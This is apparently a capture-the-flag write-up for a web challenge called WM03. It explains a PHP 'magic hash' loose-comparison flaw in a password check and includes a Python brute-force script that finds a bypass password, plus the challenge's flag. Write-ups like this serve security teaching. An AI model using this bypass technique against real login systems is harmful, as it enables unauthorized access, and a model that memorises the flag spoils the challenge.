

# WM03
## BRIEFING
Visit the site at https://cfta-wm03.allyourbases.co and find a way to bypass the password check.

## Solution

The main page of the website asks us for a password to login.


If we inspect the source code we discover the login function running on the back-end:

```php

        <!--
        TODO: remove, taken from OSS project, login contains:
        return function ($event) {
            require_once("flag.php");
            $hash = "0e747135815419029880333118591372";
            $salt = "e361bfc569ba48dc";
            if (isset($event['password']) && is_string($event['password'])) {
                if (md5($salt . $event['password']) == $hash) {
                    return $flag;
                }
            }
            return "Incorrect";
        };
        -->
```

This is a case of magic hashes, which take advantage of a loose equivalency check. That is, in PHP, the `$hash` value of `0e747135815419029880333118591372` will be interpreted as an integer, specifically 0 to the power of 747135815419029880333118591372 when being compared with `==` instead of `===`. The `===` would require strict string equivalency, but since the function uses `==`, our goal is to produce another hash that begins with `0e` and only contains digits thereafter.

We can write a python script to find such a password for us. We'll have to use the provided salt and append characters to it until we find a string that produces a magic hash via the `md5` function.

```py
import hashlib
import re
import random
import itertools

_rex = re.compile('^0+e\d*$')

starter = "e361bfc569ba48dc"
alphabetsoup = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()"

found = False
while not found:
    for j in range(50):
        for possible_password in itertools.permutations(alphabetsoup,j):
            sub = starter + ''.join(possible_password)
            #print sub
            check = hashlib.md5(sub).hexdigest()
            if _rex.match(check) != None:
                print "You're a hero"
                print "The password is: ", ''.join(possible_password)
                found = True
                break
        if found:
            break
```

Running the script, we get:
```console
root@osboxes:~/Downloads/wm03# python solve.py 
You're a hero
The password is:  cqZa
```

We enter `cqZa` as the password and get the flag. Note: There are many possible valid passwords, this was just the first one I found.



The flag is **theLOOSEtheMATH&theTRUTHY**.
